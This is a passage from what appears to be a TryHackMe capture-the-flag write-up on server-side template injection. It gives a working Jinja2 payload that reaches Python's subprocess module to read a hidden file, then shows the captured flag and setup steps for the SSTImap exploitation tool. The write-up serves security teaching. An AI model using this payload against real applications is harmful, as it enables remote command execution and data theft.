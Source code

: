 As seen, we got the hidden file, let's read it:

```jinja2
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(['cat', '5d8bea6df83cbb6767a235c4ba54933b.txt'])}}
```

![Pasted image 20250505180211.png](../../../IMAGES/Pasted%20image%2020250505180211.png)

We got our flag:

```
THM{ecc43642dd6934d37c69598174e6e126}
```

# Automating the Exploitation
---

**SSTImap** is a tool that automates the process of testing and exploiting SSTI vulnerabilities in various template engines. Hosted on [GitHub](https://github.com/vladko312/SSTImap), it provides a framework for discovering template injection flaws.

If you're using AttackBox, the tool is installed in`/opt/SSTImap` directory. If you're using your own machine, you can install it by cloning the repository from GitHub and setting up its environment. Here's how you can get started:

1. **Clone the Repository**:
 
 ```bash
 git clone https://github.com/vladko312/SSTImap.git
 ```
 
2. **Navigate to the SSTImap Directory**:
 
 ```bash
 cd SSTImap
 ```
 
3. **Install Dependencies** (if any are listed, usually via a`requirements.txt`):
 
 ```bash
 pip install -r requirements.txt
 ```
 

SSTImap is capable of the following:

- **Template Engine Detection**: SSTImap can help identify the template engine used by a web application, which is crucial for crafting specific exploits.
- **Automated Exploitation**: For known vulnerabilities, SSTImap can automate the process of exploiting them.
